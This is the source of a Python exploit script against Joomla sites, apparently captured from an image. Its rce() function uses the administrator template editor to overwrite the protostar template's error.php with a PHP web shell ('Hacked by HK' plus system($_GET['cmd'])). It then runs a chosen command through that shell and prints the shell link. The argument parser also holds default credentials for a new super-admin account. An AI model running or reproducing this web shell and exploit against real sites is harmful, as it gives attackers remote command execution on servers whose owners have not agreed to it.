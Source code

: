 
    def rce(sess, url, cmd, token):
        filename = 'error.php'
        shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
        shdata_up = {
            'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
            'task': 'template.apply',
            token: '1',
            'jform[extension_id]': '506',
            'jform[filename]': '/' + filename
        }
        sess.post(shlink, data=shdata_up)
        path2shell = '/templates/protostar/error.php?cmd=' + cmd
        # print '[+] Shell is ready to use: ' + str(path2shell)
        print '[+] Checking:'
        shreq = sess.get(url + path2shell)
        shresp = shreq.text
        print shresp + '[+] Shell link: \n' + (url + path2shell)
        print '[+] Module finished.'


    def main():
        # Construct the argument parser
        ap = argparse.ArgumentParser()
        # Add the arguments to the parser
        ap.add_argument("-url", "--url", required=True,
                        help=" URL for your Joomla target")
        ap.add_argument("-u", "--username", required=True,
                        help="username")
        ap.add_argument("-p", "--password", required=True,
                        help="password")
        ap.add_argument("-usuper", "--usernamesuper", default="hk",
                        help="Super's username")
        ap.add_argument("-psuper", "--passwordsuper", default="12345678",
                        help="Super's password")
        ap.add_argument("-esuper", "--emailsuper", default="hk@hk.com",
                        help="Super's Email")
        ap.add_argument("-cmd", "--command", default="whoami",
                        help="command")
        args = vars(ap.parse_args())
        # target
        url = format(str(args['url']))
        print '[+] Your target: ' + url
        # username
        uname = format(str(args['username']))
        # password
        upass = format(str(args['password']))
        # command
        command = format(str(args['command']))
        # username of superadmin
        usuper = format(str(args['usernamesuper']))
